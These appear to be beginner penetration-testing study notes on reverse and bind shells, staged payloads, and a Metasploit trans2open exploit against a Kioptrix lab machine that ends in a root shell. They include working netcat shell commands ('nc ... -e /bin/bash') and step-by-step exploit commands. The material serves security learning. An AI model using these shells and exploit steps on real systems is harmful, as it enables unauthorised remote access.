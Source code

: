 # Exploitation Basics

## Reverse Shells vs Bind Shells

### netcat

- reverse shell: a victim connects to us, we executes a linux bin shell when it connects, we're listening. 95% of cases.
- bind shell: we connect to a port on the target, the victim is listening. Uesful to bypass firewalls.

Reverse shell:

1. open a port: `nc -nvlp 4444`
2. `nc 192.168.92.128 4444 -e /bin/bash`

Bind shell:

1. `nc -nvlp 4444 -e /bin/bash`
2. connect to our victim: `nc 192.168.92.128 4444`

Note: `4444` is often blacklisted by antiviruses and firewalls.

## Staged vs Non-Staged Payloads

- non-staged payload: sends exploit shellcode all at once (large size, won't always work) (windows/meterpreter_reverse_tcp)
- staged payload: sends in stages (can be less stable), metasploit identifies them with an extra / (windows/meterpreter/reverse_tcp)

if one type is not working, try the other one.

## Gaining Root with Metasploit

1. run `msfconsole`
2. `search trans2open`, look for the targeted OS
3. `use 1`, then `options` to know which options to provide
4. `set rhosts 192.168.92.129`, then `options` again to check if it's set and `show targets`
5. type `run` or `exploit`, the payload is the issue, `options` again.
6. `set payload linux/x86/shell_reverse_tcp` with autocompletion to know our options, now it's a non-staged payload. `options` again to check if it's set.

we're in:

```
whoami
root
hostname
kioptrix.level1
```

## Manual Exploitation

## Brute Force Attacks

## Credential Stuffing and Password Spraying

## Our Notes, Revisited

